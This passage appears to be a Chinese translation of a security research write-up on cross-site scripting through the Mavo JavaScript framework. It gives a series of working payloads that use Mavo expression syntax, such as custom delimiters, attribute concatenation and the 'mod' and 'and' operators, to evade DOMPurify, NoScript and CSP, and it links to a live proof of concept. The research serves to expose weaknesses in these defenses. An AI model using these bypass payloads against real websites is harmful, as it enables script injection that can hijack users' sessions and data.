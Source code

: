 还记得mv-expressions属性吗?我们可以使用该属性定义自己的分隔符，而且可以使用任何字符来做到这一点，因此我再次使用该属性逃避了DOMPurify的检测，示例代码如下所示： 

```
&lt;div data-mv-expressions =“lolx lolx”&gt; lolxself.alert（'lol'）lolx &lt;/div&gt;
```

Giorgio改进了NoScript，并能够检测到上述的攻击向量。不过我仍然发现另一种绕过NoScript的方法，那就是使用元素上的多个属性来构造我们的攻击向量。多个表达式可以在属性内部使用，并且可以被合并到一起，示例代码如下所示： 

```
&lt;a href='[javascript][""][[Title][1][x.rel]' rel=) id=x title=alert(&gt; test &lt;/a&gt;
```

我们也可以将常规属性值与表达式混合使用，以此来避开过滤器，示例代码如下所示： 

```
&lt;a href=javascript[x.rel]1) id=x rel=:alert(&gt; test &lt;/a&gt;
```

但是，经过我的测试发现，Nocript最新版本还是能够检测到我们上述构造的攻击向量。不过，我还是想出了一个攻击向量以绕过它的检测，示例代码如下所示： 

```
[/**/x='javascript'][/**/x+=':alert'+y.rel+y.title]&lt;a href=[x] id=y title=1) rel=(&gt;test&lt;/a&gt;
```

我使用注释将MavoScript强制转化到JavaScript模式。 一旦进入JavaScript模式，我在javascript字符串加上双引号，然后我将该字符串与anchor 属性的值相结合。由于Mavo解析器使用字母作为操作符以及NoScript不会对其后跟随字母数字的函数调用进行检测，因此我可以利用这些特性来躲避检测。同时，这种方法也可以用来绕过CSP检测。注意mod是一个运算符，因此允许1跟随运算符后面即使没有空格也可以，示例代码如下所示： 

```
[self.alert(1)MOD1]
```

最后结合Mavo允许使用无引号字符串或者直接使用跟随在“and”等关键字之后的无引号字符串，我再次绕过了NoScript的检查，示例代码如下所示： <br>

```
[omglol mod 1 mod self.alert(1)andlol]
```

[点击查看PoC](http://portswigger-labs.net/mavo/?csp=1&amp;dompurify=1&amp;inj=%5Bomglol%20mod%201%20mod%20self.alert(1)andlol%5D)<br>



**结论**

****

像Mavo这样的框架可以使开发人员的工作变得更轻松，但是为HTML和JavaScript引入新的语法通常会破坏其安全机制（如CSP，NoScript和DOMPurify）。该框架还提供新的操作方式，将不可思议的传统漏洞（如DOMXSS）引入到应用程序中，甚至会引入数据源劫持等漏洞。 
